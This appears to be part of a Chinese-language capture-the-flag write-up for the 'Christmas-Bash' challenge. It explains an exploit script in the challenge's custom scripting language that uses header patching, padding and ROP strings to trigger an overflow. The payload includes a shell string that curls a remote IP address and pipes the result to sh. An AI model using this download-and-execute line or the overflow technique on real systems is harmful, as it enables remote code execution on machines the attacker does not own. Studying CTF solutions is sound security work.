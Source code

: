 ## exp

* exp.slang

exp的逻辑如下，编译出来exp.scom，对一些没法直接写入的位置进行修改。

headera修改为自己的文件前16位并修改`pop 0`为`pop 1`，

headerb修改为overflow.scom的前36位，

shell记得最后写00截断，

Filea fileb 储存是同一个字符串，每次连接远程要修改文件名。

对应的exp.scom文件也在[github](https://github.com/wlingze/Christmas-Bash/blob/master/WriteUp/lingze/exp.scom)。

```
gift check is 1;
gift a is 2;

gift headera is "111111111111111111111111";
# opcode -> check = 2#
gift headerb is "2222222222222222222222222222222222222222";
# headerb -> push 1; pop $name(overflow)#
gift pad is "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
# 'a' * 0x80 #
gift rop is "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
# rop 'b' * 0x100#
#gift shell is "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";#
gift shell is "bash -c 'curl 1.14.92.160|sh'#aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";

gift stdout is 1;
gift filea is "/tmp/aaaa.scom#aaaaaaaaaaaaaaa";
gift fileb is "/tmp/aaaa.scom#aaaaaaaaaaaaaaa";
gift hello is "hello";
gift hellolen is 5;
gift oflag is 65;
gift none is 0;
gift mode is 432;
gift fda is 0;
gift fdb is 0;
gift fdb is [a];

gift ptr is "123456";


# ptr to leave#
this family wants gift check
    if the gift equal to 1:
        reindeer Dancer delivering gift filea oflag mode brings back gift fda;
        reindeer Rudolph delivering gift stdout hello hellolen;
        gift size is 16;
        reindeer Rudolph delivering gift fda headera size;

    if the gift equal to 2:
        # set overflow to rop#
        reindeer Dancer delivering gift fileb oflag mode brings back gift fdb;
        gift size is 36;
        reindeer Rudolph delivering gift fdb headerb size;
        gift size is 128;
        reindeer Rudolph delivering gift fdb pad size;
        reindeer Rudolph delivering gift fdb pad size;
```